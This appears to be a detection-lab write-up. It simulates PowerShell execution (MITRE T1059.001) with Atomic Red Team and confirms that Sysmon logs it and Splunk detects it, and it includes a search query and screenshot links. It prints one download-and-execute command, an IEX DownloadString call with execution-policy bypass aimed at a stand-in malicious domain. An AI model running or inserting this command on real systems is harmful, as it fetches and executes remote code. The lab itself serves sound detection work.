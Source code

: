 # T1059.001 – PowerShell Execution

**MITRE Technique**: [T1059.001 – Command and Scripting Interpreter: PowerShell](https://attack.mitre.org/techniques/T1059/001/)

This attack simulates malicious PowerShell execution using Atomic Red Team on a domain-joined Windows 10 machine. The purpose is to test endpoint visibility using Sysmon and log detection with Splunk.

---

## 🎯 Objective

* Simulate a real-world PowerShell-based attack
* Confirm Sysmon logs command line activity (Event ID 1)
* Verify detection in Splunk via search queries

---

## 🧪 Atomic Command Used

```powershell
powershell.exe -nop -exec bypass -Command "IEX (New-Object Net.WebClient).DownloadString('http://malicious[.]domain/script.ps1')"
```

This PowerShell command reflects a common technique used by attackers to download and execute remote code.

---

## 🔍 Detection in Splunk

### Tools Involved:

* Sysmon installed on Windows 10
* Splunk Universal Forwarder running on the same host
* Splunk Enterprise server receiving and indexing logs
* Atomic Red Team running directly on the Windows target

### Detection Method:

* Sysmon Event ID 1 logs all process creations, including full PowerShell command lines
* Splunk ingests these logs under sourcetype `WinEventLog:Microsoft-Windows-Sysmon/Operational`

### Splunk Detection Query:

```splunk
index=endpoint sourcetype="WinEventLog:Microsoft-Windows-Sysmon/Operational"
| search CommandLine="*powershell*"
| table _time, Computer, User, CommandLine
```

### What to Look For:

* Suspicious PowerShell usage
* Base64 encoded or obfuscated strings
* Unexpected external IPs or domains

> 🔎 **Correlating with Event ID 4624**:
> Logon Event ID 4624 is useful to confirm which user account initiated the session during which the suspicious PowerShell was executed. By cross-referencing this with Event ID 1 from Sysmon, analysts can gain timeline context and user attribution.

---

## ✅ Result

* PowerShell execution logged by Sysmon (Event ID 1)
* Event successfully forwarded to Splunk
* Detection via query confirmed visibility

---

## 📸 Screenshots

### 1. Atomic Red Team Inference 
![PowerShell Attack](../screenshots/t1136.002.PNG)

### 2. Atomic Red Team payload being triggered:

![PowerShell Attack](../screenshots/T1059.001%20attack.PNG)

### 3. Splunk search showing detection:

![Search Shows](../screenshots/the%20success.PNG)

### 4. Powershell search showing detection:

![Log Entry](../screenshots/we%20can%20search%20powershell%20as%20well%20to%20see.PNG)

### 3. Log entry with PowerShell payload:

![Payload](../screenshots/what%20to%20look%20for%20in%20powershell.PNG)
